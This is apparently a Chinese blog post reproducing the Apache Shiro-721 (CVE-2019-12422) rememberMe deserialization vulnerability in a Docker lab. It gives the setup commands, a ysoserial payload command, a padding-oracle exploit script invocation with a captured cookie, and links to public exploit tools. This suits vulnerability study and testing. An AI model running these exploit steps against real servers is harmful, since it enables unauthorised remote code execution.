

# shiro-721 CVE-2019-12422 - Bin_Go - 博客园

> 原文：[`www.cnblogs.com/Bin-go/p/17720263.html`](https://www.cnblogs.com/Bin-go/p/17720263.html)

漏洞描述
Apache Shiro 是一个强大易用的 Java 安全框架，提供了认证、授权、加密和会话管理等功能。Shiro 框架直观、易用，同时也能提供健壮的安全性。Apache Shiro 框架提供了记住密码的功能（RememberMe），用户登录成功后会生成经过加密并编码的 cookie。在服务端对 rememberMe 的 cookie 值，先 base64 解码然后 AES 解密再反序列化，就导致了反序列化 RCE 漏洞

影响版本

```
Apache Shiro < 1.4.2
```

环境搭建

```
下载
git clone https://github.com/3ndz/Shiro-721.git
cd Shiro-721/Docker

构建、运行
docker build -t shiro-721 .    //不要忽略 721 后面的那个点，意为当前路径
docker run -p 8080:8080 -d shiro-721
```

复现过程

```
选择正确登录，并勾选 Remember Me
登录后点击 account 页面，获取 rememberMe 的值
```


```
使用 ysoserial 生成 payload
java -jar ysoserial-master.jar CommonsBeanutils1 "touch /tmp/succ123" > payload.class 使用公开 exp 破解 payload 的密文
python2 shiro_exp.py  http://0.0.0.0:8080/account/ ksothlyg7KC4Ao/2liRPGUt9AoR1xFrK6WOje7cGFoW5Qz/KQNNucDBmfyznZqI60evUrCCAQMXYlS1TO4/i/J8W8G92OJ4s1rqU9uahWUladtSt5f3Xei1uEE19snJbKeNDqj/OEQLCzTnRef8ZQbRbyExu3jfg3rabpfvRTtC+XA59/pHcwuI8td9oe+8O8pCYkA6T+3lZET/Q6nUH9N3KNoQeSSG/e/4hSDVtSOar42HBMMxaVCWx9lOdiSQLXQJxNCLbjUOWDA2dZ1Vol0QsXGp+g13dZkMDQeZUUJvlpO9zCvPjvdcMpXlS8n/Ovx7XNITyXKz47W+Nt0+01ywcgAw5q+8ntYBicWmKVy1BQouSnTRQis3sf+ktLZubfiDYgjbh7uR0aXPZtY3IZ4fdQby4+AGXuUHxjT9J3eCSz+Iotbv9A1UElswaLON1o3RwLAy6IQ5Cgh3XyBTxVuhV714gWLTCmxEPU0dGqvq9MJOvV2Ogn03eJ1KYDXBB payload.class
 此步骤很慢，可以将远程指令设置短一些
下载连接一：https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar
下载链接二：https://github.com/wuppp/shiro_rce_exp
将的得到的值替换就可成功
```



工具利用

```
Shiro-550，只需输入 url，即可完成自动化检测和漏洞利用，不能使用可能是环境不兼容
https://github.com/feihong-cs/ShiroExploit
```